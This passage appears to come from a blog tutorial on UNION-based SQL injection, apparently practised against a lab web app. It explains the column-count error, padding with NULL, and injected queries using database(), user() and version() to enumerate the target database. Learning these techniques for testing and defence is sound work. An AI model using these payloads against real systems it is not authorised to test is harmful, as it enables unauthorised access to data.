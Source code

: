 {% highlight mysql %}
USE mysite;
SELECT database();
{% endhighlight %}

In that case the database will show us his name after we chose the database, in my case the database name will be 'mysite'.

![sql-injection-024.png](/assets/images/sql-injection-024.png)
**Figure 24** Database function.

So let's think carefully, we have a way to extract data about the database, but if we use injection with `UNION` we must use in our case two SELECT query because the original query that the php code produces include two column, so if we do something like:

{% highlight mysql %}
select
  first_name,
  last_name
  FROM users WHERE user_id='1' or '0'='0'
  UNION
  SELECT database();
{% endhighlight %}

we will get an error.

![sql-injection-025.png](/assets/images/sql-injection-025.png)
**Figure 25** Erorr "different number of columns".

For that matter we need to use other query that contain `UNION SELECT` with two another columns, we can achieve that goal with NULL, to doing so just type the following:

{% highlight mysql %}
select
  first_name,
  last_name
  FROM users WHERE user_id='1' or '0'='0'
  UNION
  SELECT NULL, database();
{% endhighlight %}

So, we can use sort of function query to extract more data about the database and it's important that you new them all or most of them:
{% highlight mysql %}
SELECT NULL, database();
SELECT NULL, user();
SELECT NULL, version();
{% endhighlight %}

![sql-injection-026.png](/assets/images/sql-injection-026.png)
**Figure 26** Select null with function.

Now we know lets do some injection.
![sql-injection-027.png](/assets/images/sql-injection-027.png)
**Figure 27** database() - for seen the database name.
